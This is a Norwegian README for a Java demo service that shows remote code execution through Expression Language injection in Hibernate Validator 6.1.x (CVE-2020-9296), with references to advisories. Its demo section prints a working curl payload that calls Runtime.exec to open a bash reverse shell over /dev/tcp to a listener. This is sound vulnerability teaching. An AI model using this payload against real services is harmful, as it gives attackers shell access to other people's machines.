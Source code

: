 # postnr - enkelt innbrudd i Hibernate Validator 6.1.x

## API

Søk i databasen over postnummer med en GET mot /postnr. Søket tar inntil fire parametre.

| Parameter | Betydning |
--- | --- |
| pn | Postnummer |
| ps | Poststed |
| kn | Kommunenr |
| k | Kommunenavn |

Ex:
```shell
curl -s localhost:8080/postnr?pn=5230
```

Resultatet er en liste av poststeder som matcher søkekriteriene:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```



## Demo ##

Tre terminaler:
1. `ncat -lkvp 31338`
2. `mvn clean package exec:java`
3. `curl -vv -G --data-urlencode 'pn=${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec(["bash", "-c", "exec 5<>/dev/tcp/192.168.10.138/31338;cat <&5 | while read line; do $line 2>&5 >&5;done"].toArray("".split(","))).waitFor()}' http://localhost:8080/postnr`

Merk at IP-adressen i terminal 3 må matche IP-adressen til lokal maskin.

I terminal 1 kan man nå skrive vanlige bash-kommandore og eksekvere dem på maskinen som kjører i terminal 2.

## Kommentarer
Må bruke 6.1.x-versjonene.
6.2.x og 7.0.x legger begrensning på EL-tolkningen og defaulter til å ikke kunne kalle metoder. Se detaljer: https://in.relation.to/2021/01/06/hibernate-validator-700-62-final-released/,

CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9296

Netflix: https://securitylab.github.com/advisories/GHSL-2020-027-netflix-conductor/

### Tidlig oppdagelse

http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/

## Generert kode:

Koden er generert med
```shell
mvn archetype:generate -DarchetypeArtifactId=jersey-quickstart-grizzly2 \
-DarchetypeGroupId=org.glassfish.jersey.archetypes -DinteractiveMode=false \
-DgroupId=com.example -DartifactId=simple-service -Dpackage=com.example \
-DarchetypeVersion=2.33
```

Fra https://eclipse-ee4j.github.io/jersey.github.io/documentation/latest/getting-started.html

## Dokumentasjon

Java EE Expression Language: https://javaee.github.io/tutorial/jsf-el.html#GJDDD

Hibernate Validator: https://docs.jboss.org/hibernate/validator/6.1/reference/en-US/html_single/
